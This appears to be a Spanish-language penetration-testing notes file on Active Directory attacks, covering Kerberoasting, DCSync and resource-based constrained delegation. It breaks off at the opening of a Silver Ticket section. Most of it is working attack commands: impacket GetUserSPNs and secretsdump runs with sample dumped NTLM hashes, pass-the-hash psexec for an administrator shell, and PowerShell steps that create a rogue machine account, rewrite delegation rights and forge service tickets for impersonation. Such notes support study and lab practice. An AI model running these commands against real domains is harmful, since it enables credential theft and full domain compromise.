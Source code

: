 ---- 
## Kerberoasting Attack:

##### Al tener credenciales validas, podriamos efectuar un kerberoasting attack:

```shell
GetUserSPNs.py {dc}/{user}:{passwd}
# En caso de que esto tirase error, por ejemplo por estar desactivada el registro NTLM:
GetUserSPNs.py {dc}/{user}:{passwd} -k -debug
# -k tirar de kerberos, -debug --> ver errores 
# Podriamos buscar el error que nos arroja la consola, y ver que habria que modificar el script de GetUsersSPNs.py
# Linea 260 aprox, en funcion run: 
# new line ---> target = self.__kdcHost
# old line --> #target = self.getMachineName()  <-- old line 260 code that we're no longer running
impacket-GetUserSPNs {dc}/{user}:{passwd} -k -debug -dc-ip {target_ip} -dc-host {dc}
# De esta manera nos devolveria un SPN --> (Service Principal Name: esto esta asociado a un objeto de ad (cuenta de user, group o pc) en el cual el servicio se ejecuta)

```

---

## DCSync attack:

##### Permite al atacante simular el comportamiento del Domain Controller 
##### ( #DC ) y recuperar datos de conraseñas a través de replicación de domino. 

### Proceso: 

- ##### El atacante descubre el domain controller para solicitar la replicación.
- ##### El atacante solicita la replicación de usuarios mediante #GetNCChangesolic 
- ##### El DC retorna la respuesta, inluyendo los hashes de las contraseñas de los usuarios. 

##### Muchas veces la infraestructura de las organizaciones necesita más de un #DC, para el #AD. Para mantener la choerencia de un entorno con más de un DC , es necesario que los objetos de AD se repliquen a través de esos DC. 
##### La mayoria de las tareas relacionadas con la replicación se especifican en el Protocolo remoto de Serivico de replicación de directorios. 

## Explotación 

##### Cuando un usuario posee los permisos de GetChanges y GetChangesAll podrá realizar una replicación de dominio, de esta manera podemos usar herramientas como impacket para obtener los hashes de las contraseñas de los usuarios...

```shell
impacket-secretsdump {domain}/{user}@{target_ip}

# Ejemplo 
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/userx@10.10.10.175
# Esto realizara la replicación y nos arrojara algo como lo siguiente: 
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
# En donde podemos ver los hashes de las contraseñas de los usuarios, por ejemplo, el hash de la password de el usuario Administrator es "823452073d75b9d1cf70ebdf86c7f98e", 
```

##### Teniendo el hash de la contraseña del usuario, podemos utlizar la herramienta "impacket-psexec" (Herramienta de línea de comandos que permite a los admins de sistemas ejecutar comandos), para solicitar un consola interactiva:

```shell
impacket-psexec {domain}/{user}@{target_ip} cmd.exe --hashes :{hash}
# Esto nos arrojaria una consola interactiva con permisos de administrador

# Ejemplo 
impacket-psexec EGOTISTICAL-BANK.LOCAL/Administrator@10.10.10.175 cmd.exe --hashes :823452073d75b9d1cf70ebdf86c7f98e

```

---

## Resource-based Constraint Delegation:

##### El Resource-based Constraint Delegation establece en el objeto quién puede suplantar a cualquier usuario en su contra.
##### En este caso, el objeto restringido tendrá un atributo llamado msDS-AllowedToActOnBehalfOfOtherIdentity con el nombre del usuario que puede suplantar a cualquier otro usuario en su contra.
###### Otra diferencia importante de esta Delegación restringida a las otras delegaciones es que cualquier usuario con permisos de escritura sobre una cuenta de máquina (GenericAll/GenericWrite/WriteDacl/WriteProperty/etc) puede configurar el msDS-AllowedToActOnBehalfOfOtherIdentity (En las otras formas de Delegación necesitaba administrador de dominio privs).

- ##### El atacante compromete una cuenta que tiene un SPN o crea uno ("Servicio A"). Tenga en cuenta que cualquier usuario administrador sin ningún otro privilegio especial puede crear hasta 10 objetos de equipo (MachineAccountQuota) y establecerles un SPN. Entonces, el atacante puede simplemente crear un objeto de computadora y establecer un SPN.
- ##### El atacante abusa de su privilegio de ESCRITURA sobre la computadora víctima (ServiceB) para configurar la delegación restringida basada en recursos para permitir que ServiceA suplante a cualquier usuario contra esa computadora víctima (ServiceB).
- ##### El atacante usa Rubeus (U otras maneras de explotar y realizar el ataque) para realizar un ataque S4U completo (S4U2Self y S4U2Proxy) del Servicio A al Servicio B para un usuario con acceso privilegiado al Servicio B.
	- ##### S4U2Self (de la cuenta SPN comprometida/creada): Solicite un TGS de administrador para mí (no reenviable).
	- ##### S4U2Proxy: use el TGS no reenviable del paso anterior para solicitar un TGS del administrador al host de la víctima.
	- ##### Incluso si está utilizando un TGS no reenviable, ya que está explotando la delegación restringida basada en recursos, funcionará.
- ##### El atacante puede pasar el ticket y hacerse pasar por el usuario para obtener acceso al ServiceB de la víctima.

### Explotación:

##### Así como se puede explotar con Rubeus, existen otras maneras, desde el script rbcd.py encontrado en github https://github.com/tothi/rbcd-attack, así como tambien usando las herramientas de impacket:

##### Lo primero que deberiamos hacer es crear el Computer Objetc, para esto usaremos powermad (Se recomienda tambien usar powerview)
- ##### Powermad: (wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1) 
- ##### Powerview: (wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1)
##### Ambos deberian transferirise a la maquina victima windows que tenemos pwneada, una vez en ella:

```powershell 
Import-Module .\Powermad.ps1
Import-Module .\PowerView.ps1
New-MachineAccount -MachineAccount {evilPC_name} -Password $(ConvertTo-SecureString '{evilPC_passwd}' -AsPlainText -Force) -Verbose
```

##### Una vez creada la maquina, podriamos (haciendo uso de powerview) ver si esta se creo correctamente: 

```powershell
Get-DomainComputer {evilPC_name}
```

#### Luego, haciendo uso de powerview declaramos algunas variables para realizar el ataque: 

```powershell
$targetComputer = {taget_Computer}

$ComputerSid = Get-DomainComputer {evilPC_name} -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# Adicionalmente, una vez más, haciendo uso de powerview podriamos corroborar que todo haya salido ok, ejecutando: 

Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

# Lo que deberia arrojar: 
# msds-allowedtoactonbehalfofotheridentity

# ----------------------------------------

# {1, 0, 4, 128...}
```

#####  De esta manera habriamos realizado todo, solo quedaria solicitar un TGT a #KERBEROS para suplantar la identidad del usuario que deseemos. 
##### En nuestra maquina atacante con linux: 

```shell
impacket-getST -spn cifs/{dc} -impersonate {user_to_supplant} -dc-ip {dc_ip} {dc}/{evilPC_name}$:{evilPC_password}
```

##### De esta manera habriamos solicitado y conseguido el TGT para el usuario que desearamos, por lo que simplemente quedaria exportart la variable global KRB5CCNAME, y utilizar psexec para autenticarnos como el usuario suplantado: 

```shell
export KRB5CCNAME=$(pwd)/{user_to_supplant}.ccahe

impacket-psexec -k {dc}
```

---

## Silver Ticket Attack: 

#### Esto suele ser muy raro, pero posible, y consiste en cuando poseemos credenciales validas de un usuario con SPN (Service Principal Name), es decir, un usuario que corre un servicio en particular, como myqsl, así como a su vez tenemos el hash NTLM (Que con tener la passwd se puede generar), asi como el SID del dominio.

